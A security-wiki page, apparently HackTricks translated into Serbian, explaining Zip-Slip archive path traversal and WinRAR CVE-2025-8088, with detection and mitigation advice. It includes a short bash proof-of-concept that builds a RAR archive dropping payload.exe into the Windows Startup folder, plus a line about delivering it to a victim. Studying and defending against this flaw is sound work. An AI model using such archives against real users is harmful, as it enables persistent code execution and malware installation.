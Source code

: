 # Archive Extraction Path Traversal ("Zip-Slip" / WinRAR CVE-2025-8088)

{{#include ../banners/hacktricks-training.md}}

## Pregled

Mnogi formati arhiva (ZIP, RAR, TAR, 7-ZIP, itd.) omogućavaju svakom unosu da nosi svoj **interni put**. Kada alat za ekstrakciju slepo poštuje taj put, kreirano ime datoteke koje sadrži `..` ili **apsolutni put** (npr. `C:\Windows\System32\`) biće zapisano izvan direktorijuma koji je korisnik odabrao. Ova klasa ranjivosti je široko poznata kao *Zip-Slip* ili **prolaz kroz put ekstrakcije arhive**.

Posledice se kreću od prepisivanja proizvoljnih datoteka do direktnog postizanja **daljinskog izvršavanja koda (RCE)** tako što se isporučuje payload na **auto-run** lokaciju kao što je Windows *Startup* folder.

## Osnovni uzrok

1. Napadač kreira arhivu gde jedan ili više zaglavlja datoteka sadrže:
* Relativne sekvence prolaza (`..\..\..\Users\\victim\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\payload.exe`)
* Apsolutne puteve (`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\payload.exe`)
2. Žrtva ekstraktuje arhivu pomoću ranjivog alata koji veruje ugrađenom putu umesto da ga sanitizuje ili primora ekstrakciju ispod odabranog direktorijuma.
3. Datoteka se zapisuje na lokaciju koju kontroliše napadač i izvršava/učitava se sledeći put kada sistem ili korisnik aktivira taj put.

## Primer iz stvarnog sveta – WinRAR ≤ 7.12 (CVE-2025-8088)

WinRAR za Windows (uključujući `rar` / `unrar` CLI, DLL i prenosivi izvor) nije uspeo da validira imena datoteka tokom ekstrakcije. Zlonamerna RAR arhiva koja sadrži unos kao:
```text
..\..\..\Users\victim\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.exe
```
bi završio **izvan** odabranog izlaznog direktorijuma i unutar korisničkog *Startup* foldera. Nakon prijavljivanja, Windows automatski izvršava sve što se tamo nalazi, pružajući *persistent* RCE.

### Izrada PoC arhive (Linux/Mac)
```bash
# Requires rar >= 6.x
mkdir -p "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup"
cp payload.exe "evil/../../../Users/Public/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
rar a -ep evil.rar evil/*
```
Opcije korišćene:
* `-ep`  – čuvanje putanja fajlova tačno onako kako su date (ne **pruning** vodeće `./`).

Dostavite `evil.rar` žrtvi i uputite ih da ga izvade koristeći ranjivu verziju WinRAR-a.

### Posmatrana Eksploatacija u Prirodi

ESET je izvestio o RomCom (Storm-0978/UNC2596) spear-phishing kampanjama koje su priložile RAR arhive koristeći CVE-2025-8088 za implementaciju prilagođenih backdoor-a i olakšavanje operacija ransomware-a.

## Saveti za Detekciju

* **Statistička inspekcija** – Nabrojati stavke arhive i označiti bilo koje ime koje sadrži `../`, `..\\`, *apsolutne putanje* (`C:`) ili nekanonske UTF-8/UTF-16 kodiranja.
* **Sandbox ekstrakcija** – Dekompresovati u jednokratni direktorij koristeći *siguran* ekstraktor (npr., Python-ov `patool`, 7-Zip ≥ najnovija verzija, `bsdtar`) i proveriti da li rezultantne putanje ostaju unutar direktorijuma.
* **Praćenje krajnjih tačaka** – Upozoriti na nove izvršne fajlove napisane u `Startup`/`Run` lokacije ubrzo nakon što je arhiva otvorena od strane WinRAR/7-Zip/etc.

## Ublažavanje i Ojačavanje

1. **Ažurirajte ekstraktor** – WinRAR 7.13 implementira pravilnu sanitizaciju putanja. Korisnici ga moraju ručno preuzeti jer WinRAR nema mehanizam za automatsko ažuriranje.
2. Ekstraktujte arhive sa **“Ignoriši putanje”** opcijom (WinRAR: *Ekstrakt → "Ne ekstraktuj putanje"*) kada je to moguće.
3. Otvorite nepouzdane arhive **unutar sandbox-a** ili VM-a.
4. Implementirajte beleženje aplikacija i ograničite pristup korisnika za pisanje u auto-radne direktorijume.

## Dodatni Pogođeni / Istorijski Slučajevi

* 2018 – Masivno *Zip-Slip* upozorenje od strane Snyk-a koje utiče na mnoge Java/Go/JS biblioteke.
* 2023 – 7-Zip CVE-2023-4011 slična eksploatacija tokom `-ao` spajanja.
* Bilo koja prilagođena logika ekstrakcije koja ne poziva `PathCanonicalize` / `realpath` pre pisanja.

## Reference

- [BleepingComputer – WinRAR zero-day iskorišćen za postavljanje malvera prilikom ekstrakcije arhive](https://www.bleepingcomputer.com/news/security/winrar-zero-day-flaw-exploited-by-romcom-hackers-in-phishing-attacks/)
- [WinRAR 7.13 Changelog](https://www.win-rar.com/singlenewsview.html?&L=0&tx_ttnews%5Btt_news%5D=283&cHash=a64b4a8f662d3639dec8d65f47bc93c5)
- [Snyk – Zip Slip ranjivost izveštaj](https://snyk.io/research/zip-slip-vulnerability)

{{#include ../banners/hacktricks-training.md}}
